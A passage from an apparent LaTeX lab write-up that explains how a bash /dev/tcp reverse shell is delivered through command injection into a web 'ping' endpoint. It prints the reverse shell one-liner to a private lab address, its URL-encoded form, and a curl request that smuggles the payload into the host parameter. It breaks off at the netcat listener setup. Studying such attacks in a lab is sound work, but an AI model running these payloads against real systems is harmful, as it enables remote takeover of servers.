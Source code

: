 \subsection{The Bash TCP Redirect Technique}

The reverse shell payload is:

\begin{lstlisting}[language=bash]
bash -i >& /dev/tcp/192.168.98.5/4444 0>&1
\end{lstlisting}

Each component serves a specific purpose. \texttt{bash -i} starts an interactive bash session with a prompt and job control enabled. \texttt{/dev/tcp/host/port} is a bash built-in facility -- it is not a real filesystem path but a special construct that causes bash to ask the kernel to create a \texttt{SOCK\_STREAM} TCP socket and connect it to the specified host and port. \texttt{>\&} redirects both \texttt{stdout} and \texttt{stderr} to the file descriptor associated with the TCP socket. \texttt{0>\&1} redirects \texttt{stdin} from the same socket, completing the bidirectional I/O loop.

No external binary is required. The entire payload executes using bash's built-in \texttt{/dev/tcp} support. At the kernel level, the sequence is:

\begin{lstlisting}
socket(AF_INET, SOCK_STREAM, 0)
connect(sockfd, {192.168.98.5:4444})
dup2(sockfd, STDIN_FILENO)
dup2(sockfd, STDOUT_FILENO)
dup2(sockfd, STDERR_FILENO)
\end{lstlisting}

The payload is URL-encoded for safe HTTP delivery:

\begin{lstlisting}
bash+-c+'bash+-i+>%26+/dev/tcp/192.168.98.5/4444+0>%261'
\end{lstlisting}

The full curl trigger command is:

\begin{lstlisting}[language=bash]
curl -s "http://192.168.98.4:5000/ping?host=8.8.8.8;bash+-c+\
'bash+-i+>%26+/dev/tcp/192.168.98.5/4444+0>%261'"
\end{lstlisting}

\subsection{Netcat Listener Setup}

The listener must be started on VM2 before the payload is sent. The command is:

